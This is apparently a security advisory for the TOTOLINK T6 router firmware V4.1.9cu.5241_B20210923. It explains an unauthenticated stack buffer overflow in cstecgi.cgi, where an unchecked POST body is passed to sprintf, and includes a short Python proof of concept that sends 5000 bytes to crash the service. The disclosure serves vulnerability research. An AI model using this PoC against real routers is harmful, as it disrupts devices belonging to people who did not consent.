

# TOTOlink T6(V4.1.9cu.5241_B20210923) router has buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html

## Affected Version
V4.1.9cu.5241_B20210923
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `main` function of `cstecgi.cgi`. When an attacker accesses `http://ip/cgi-bin/cstecgi.cgi?action=login&flag=ie8` using the POST method, all data in the `HTTP BODY` will be read into `v10` through `fread` and concatenated to the local variable `v41` using the sprintf function. Due to the lack of length validation by the developer on `v10`, sending an overly long message by the attacker will eventually cause a stack overflow in the program. As this code segment resides at the beginning of the main function, the attacker does not need to undergo any form of authentication.

## Normal Operational Status

## POC
```python
import requests
def poc():
    payload = "A"*5000
    requests.post('http://192.168.5.12/cgi-bin/cstecgi.cgi?action=login&flag=ie8', data=payload)
poc()
```
A SIGSEGV is an error(signal) caused by an invalid memory reference.


